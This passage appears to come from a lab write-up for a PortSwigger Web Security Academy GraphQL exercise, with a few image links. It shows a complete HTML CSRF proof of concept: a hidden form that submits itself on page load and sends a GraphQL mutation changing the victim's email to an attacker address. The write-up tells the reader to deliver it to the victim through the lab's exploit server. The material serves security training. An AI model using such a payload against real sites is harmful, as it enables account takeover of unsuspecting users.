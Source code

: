![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-5/images/Pasted%20image%2020230707182629.png)

**Now, we can build our CSRF exploit to the victims, and change their email!**
```html
<!DOCTYPE html>
<html>
<head>
  <title>GraphQL CSRF PoC</title>
</head>
<body>
  <form class='login-form' name='email-change-form' action='https://0a4100f6047b9b378541a4cd001800fb.web-security-academy.net/graphql/v1' method="post">
    <input type='text' name='query' value='mutation{changeEmail(input:{email:"pwned@attacker.com"}){email}}' style="display: none;">
    <button class='button' type='submit' style="display: none;"></button>
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```

This CSRF exploit will automatically send the malicious form upon visit, which will then update their email to `pwned@attacker.com`.

**Let's copy and paste that exploit to the exploit server, and deliver it to victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-5/images/Pasted%20image%2020230707183850.png)
